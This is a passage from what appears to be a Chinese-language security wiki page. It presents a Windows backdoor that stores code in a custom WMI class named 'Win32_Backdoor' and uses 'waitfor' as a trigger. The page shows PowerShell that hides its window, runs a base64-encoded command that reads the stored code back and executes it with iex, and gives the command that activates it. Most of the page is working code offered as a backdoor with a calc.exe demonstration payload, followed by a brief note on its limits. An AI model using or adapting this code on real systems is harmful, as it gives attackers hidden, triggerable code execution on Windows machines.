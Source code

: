 后门代码：

（管理员权限）

```bash
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null

$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec | Out-Null

```

激活命令：

```bash
waitfor /s 127.0.0.1 /si persist

```

完整演示如下图

![2bed9d651a33415cbefb6bdf3087a0ff](images/security_wiki/2bed9d651a33415cbefb6bdf3087a0ff.gif)


该方法的优点就是能主动激活，但是缺点也明显就是只能在同一网段才能接收和发送激活信号、服务器重启之后就不行了。


